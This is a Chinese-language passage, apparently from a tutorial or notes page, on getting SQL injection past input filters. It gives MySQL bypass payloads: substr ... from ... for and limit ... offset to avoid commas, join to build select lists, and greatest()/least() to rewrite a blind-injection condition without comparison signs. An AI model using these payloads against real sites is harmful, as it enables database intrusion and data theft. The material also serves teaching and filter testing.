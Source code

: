 ### 逗号绕过

在对于`substr()`和`mid()`这两个方法可以使用`from to`的方式来解决：

```sql
 select substr(database() from 1 for 1);
 #等效于
 select substr(database() ,1, 1);
```

![image-20210201113138887](image-20210201113138887.png)

在对于limit可以使用offset来绕过：

```sql
 select id from books  limit 1 offset 0;
#等效于
select id from books  limit 0,1;
```

![image-20210201113747738](image-20210201113747738.png)

在对于select可以使用jion来绕过：

```sql
select * from (select 1)a join (select 2)b;
 #等效于
 select 1,2;
```

![image-20210201113531721](image-20210201113531721.png)



### 大于小于符号绕过

#### greatest&&least

我们可以用`greatest()` 与`least()` 。

 `greatest(a,b) `返回a与b中较大的那个值。

![image-20210201115111398](image-20210201115111398.png)

 `least(a,b) `返回a与b中较小的那个值。

![image-20210201115204131](image-20210201115204131.png)

因此一个盲注sql语句：

```sql
select * from users where id=1 and ascii(substr(database(),0,1))>64;
```

可以替代成为：

```sql
select * from users where id=1 and greatest(ascii(substr(database(),0,1)),64)=64
```

